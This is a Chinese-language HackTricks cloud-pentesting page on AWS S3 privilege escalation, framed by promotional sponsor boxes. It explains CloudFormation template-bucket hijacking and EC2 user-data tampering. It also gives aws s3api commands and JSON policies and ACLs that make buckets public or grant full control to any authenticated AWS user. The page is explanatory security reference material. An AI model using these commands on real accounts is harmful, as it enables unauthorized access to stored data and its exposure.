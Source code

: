 # AWS - S3权限提升

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

拥有这些权限的攻击者可能能够劫持资源并提升权限。

例如，拥有这些权限的攻击者对名为"cf-templates-nohnwfax6a6i-us-east-1"的云形成桶（cloudformation bucket）进行劫持。可以使用以下策略授予访问权限：
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
而且劫持是可能的，因为从上传模板到存储桶到部署模板的过程中存在一个**很短的时间窗口**。攻击者可以在他的账户中创建一个**Lambda函数**，当发送存储桶通知时，它将被**触发**并**劫持**该**存储桶**的**内容**。

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

Pacu模块[`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection)可用于自动化此攻击。\
有关更多信息，请查看原始研究：[https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`，`s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

这些是**获取和上传S3对象的权限**。AWS内部（以及外部）的多个服务使用S3存储来存储**配置文件**。\
具有对它们的**读取权限**的攻击者可能会在其中找到**敏感信息**。\
具有对它们的**写入权限**的攻击者可以**修改数据以滥用某些服务并尝试提升权限**。\
以下是一些示例：

* 如果EC2实例将**用户数据存储在S3存储桶中**，攻击者可以修改它以**在EC2实例内执行任意代码**。

### `s3:PutBucketPolicy`

攻击者（需要**来自同一账户**）如果具有此权限，将能够在存储桶上授予自己更多权限，从而使他能够读取、写入、修改、删除和公开存储桶。
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>
##JSON policy example
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

攻击者可以滥用这些权限来**授予自己对特定存储桶的更多访问权限**。请注意，攻击者不需要来自同一账户。此外，写入访问权限也是可能的。
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

攻击者可以滥用这些权限来授予自己对存储桶内特定对象的更多访问权限。
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

具有这些权限的攻击者预计能够将 Acl 放置到特定对象版本中
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
<details>

<summary><strong>支持HackTricks并获得好处！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF格式的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获得[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的账号 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
